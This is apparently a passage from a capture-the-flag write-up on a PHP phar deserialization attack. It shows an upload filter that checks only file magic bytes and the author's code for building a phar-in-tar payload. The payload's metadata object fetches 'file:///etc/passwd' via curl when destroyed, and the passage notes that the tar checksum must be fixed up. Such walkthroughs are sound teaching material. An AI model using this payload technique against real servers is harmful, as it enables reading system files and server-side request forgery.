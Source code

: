 ```php
if($ext=="jpg"){
    if(substr($contents,0,3)!="\xFF\xD8\xFF") die("<script>alert('JPG is corrupted.\\nSorry.');history.back();</script>");
}else if($ext=="jpeg"){
    if(substr($contents,0,3)!="\xFF\xD8\xFF") die("<script>alert('JPEG is corrupted.\\nSorry.');history.back();</script>");
}else if($ext=="png"){
    if(substr($contents,0,4)!="\x89PNG") die("<script>alert('PNG is corrupted.\\nSorry.');history.back();</script>");
}else if($ext=="gif"){
    if(substr($contents,0,4)!="GIF8") die("<script>alert('GIF is corrupted.\\nSorry.');history.back();</script>");
}else{
    die("<script>alert('Something error.\\nSorry.');history.back();</script>");
}
```

To make it, I made phar into tar format.

In the case of tar, name of file can be change freely.

However, when changing the header of tar, checksum should also be calculated and changed.

I used to make the phar data tar using below code.

```php
ini_set('phar.readonly',0);
class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

@unlink("test.tar");
$phar = new PharData("get_flag.tar");
$phar["AAABshpik"] = "FLAGFLAGFLAG";
$obj = new Requests('file:///etc/passwd');
$phar->setMetadata($obj);
```

The hex value of generated test.tar is as follows.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/cat_proxy2.png)

The first part contains the data you put through `$phar["AAABshpik"] = "FLAGFLAGFLAG";`.
